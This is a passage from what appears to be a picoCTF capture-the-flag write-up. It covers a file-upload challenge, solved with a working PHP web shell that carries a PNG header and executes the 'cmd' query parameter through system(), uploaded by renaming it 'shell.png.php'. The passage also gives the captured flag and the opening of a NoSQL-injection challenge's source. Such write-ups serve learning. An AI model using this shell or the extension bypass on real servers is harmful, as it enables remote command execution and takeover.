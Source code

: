 ```
</pre>
</body>
</html>
```

myfile.png
```
PNG<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![image](https://hackmd.io/_uploads/HkYaF0B9Jl.png)

after access in `/uploads/myfile.png` and change:
```
Content-Disposition: form-data; name="file"; filename="shell.png.php"
Content-Type: application/php
```

![image](https://hackmd.io/_uploads/SkYW5ASc1g.png)

and `flag` at `/var/www/html`

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}
```

### No Sql Injection
`Description`
```
Can you try to get access to this website to get the flag?
You can download the source here.
The website is running here. Can you log in?
``` 
`source`
```python
const express = require("express");
const bodyParser = require("body-parser");
const mongoose = require("mongoose");
const { MongoMemoryServer } = require("mongodb-memory-server");
const path = require("path");
const crypto = require("crypto");

const app = express();
const port = process.env.PORT | 3000;

// Middleware to parse JSON data
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

// User schema and model
const userSchema = new mongoose.Schema({
```